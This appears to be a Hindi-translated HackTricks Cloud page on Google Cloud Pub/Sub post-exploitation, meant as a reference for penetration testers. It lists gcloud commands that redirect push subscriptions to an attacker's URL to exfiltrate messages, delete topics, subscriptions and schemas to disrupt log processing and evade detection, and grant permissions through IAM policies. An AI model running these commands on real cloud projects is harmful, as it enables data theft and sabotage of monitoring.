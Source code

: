 # GCP - Pub/Sub Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Pub/Sub

Pub/Sub के बारे में अधिक जानकारी के लिए निम्नलिखित पृष्ठ देखें:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

एक विषय में एक संदेश प्रकाशित करें, **अप्रत्याशित डेटा भेजने** और अप्रत्याशित कार्यक्षमताओं को ट्रिगर करने या कमजोरियों का शोषण करने के लिए उपयोगी:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

संदेश प्राप्त करने से एक सदस्यता को रोकने के लिए उपयोगी, शायद पहचान से बचने के लिए।
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

सदस्यता को संदेश प्राप्त करने से रोकने के लिए उपयोगी, शायद पहचान से बचने के लिए।\
यह संभव है कि एक विषय को हटाया जाए, भले ही इसके साथ सदस्यताएँ जुड़ी हों।
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

इस अनुमति का उपयोग विषय की कुछ सेटिंग को अपडेट करने के लिए करें ताकि इसे बाधित किया जा सके, जैसे `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

अपने लिए किसी भी पिछले हमले को करने की अनुमति दें।

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

एक वेब सर्वर में सभी संदेश प्राप्त करें:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

एक सदस्यता बनाएं और इसका उपयोग **संदेश खींचने** के लिए करें:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**एक सदस्यता हटाना** लॉग प्रोसेसिंग सिस्टम या कुछ समान को बाधित करने के लिए उपयोगी हो सकता है:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

इस अनुमति का उपयोग कुछ सेटिंग्स को अपडेट करने के लिए करें ताकि संदेश एक ऐसी जगह संग्रहीत हों जहाँ आप पहुँच सकते हैं (URL, Big Query तालिका, बकेट) या बस इसे बाधित करने के लिए। 

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

अपने आपको उन अनुमतियों दें जो पहले टिप्पणी किए गए हमलों को करने के लिए आवश्यक हैं।

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

एक स्कीमा को एक विषय से जोड़ें ताकि संदेश इसे पूरा न करें और इसलिए विषय बाधित हो जाए।\
यदि कोई स्कीमा नहीं है, तो आपको एक बनाने की आवश्यकता हो सकती है।

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

यह ऐसा लग सकता है जैसे आप एक स्कीमा को हटा रहे हैं जिससे आप ऐसे संदेश भेज सकेंगे जो स्कीमा के अनुरूप नहीं हैं। हालाँकि, चूंकि स्कीमा हटा दिया जाएगा, कोई भी संदेश वास्तव में विषय में नहीं जाएगा। इसलिए यह **व्यर्थ** है:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

अपने आप को उन हमलों को करने के लिए आवश्यक अनुमतियाँ दें जिनका पहले उल्लेख किया गया था।

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

यह सभी अनACK किए गए संदेशों का एक स्नैपशॉट बनाएगा और उन्हें सब्सक्रिप्शन में वापस डाल देगा। एक हमलावर के लिए बहुत उपयोगी नहीं है लेकिन यहाँ यह है:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
